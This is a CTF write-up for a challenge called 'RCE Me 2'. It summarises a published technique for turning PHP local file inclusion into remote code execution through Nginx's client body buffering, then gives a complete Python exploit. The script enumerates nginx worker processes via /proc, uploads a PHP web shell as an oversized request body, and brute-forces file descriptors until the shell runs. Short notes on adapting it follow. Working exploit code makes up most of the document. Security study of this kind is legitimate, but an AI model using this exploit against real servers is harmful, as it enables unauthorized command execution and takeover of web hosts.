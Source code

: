 # KMA CTF - RCE Me 2

**hints**: https://bierbaumer.net/security/php-lfi-with-nginx-assistance/https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

**PHP LFI with Nginx Assistance**:
This post presents a new method to exploit local file inclusion (LFI) vulnerabilities in utmost generality, assuming only that `PHP is running in combination with Nginx` under a common `standard configuration`. The technique was discovered while developing the includer's revenge / counter challenges from the hxp CTF 2021.
.......
Luckily PHP is currently often deployed via `PHP-FPM and Nginx`. Nginx offers an `easily-overlooked client body buffering` feature which will `write temporary files` if the client body (not limited to post) is `bigger than a certain threshold`.

This feature `allows LFIs to be exploited without any other way of creating files`, if `Nginx runs as the same user as PHP` (very commonly done as www-data).

```python
Full Exploit:
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

We just have to edit a little of those code to fit with this challenge: 

  file -> l
  pid_max = 4194304
  edit break loop condition where `r.text` always return True(save r.text at the beginning and use it to compare to every loop)
